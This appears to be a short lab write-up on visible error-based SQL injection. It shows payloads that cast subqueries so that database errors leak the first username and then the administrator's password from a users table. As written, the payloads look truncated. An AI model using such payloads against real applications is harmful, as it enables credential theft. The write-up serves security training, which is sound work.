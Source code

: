# Detection

The lab gives the injection point and useful information regarding the database structure, confirm the injection point:

![[injection-point.png]]


# Exploitation

The following payload will tell us the first record of the `username` column in the `users` table:

```
'||CAST((SELECT username FROM users LIMIT 1)
```

![[error-username.png]]

Knowing the `administrator` is the first record, just retrieve the password the same way:

```
'||CAST((SELECT password FROM users LIMIT 1)
```

![[SQLInjection/Attacks/Blind SQL injection/Error Based SQL injection/labs/Visible error-based SQL injection/images/password.png]]

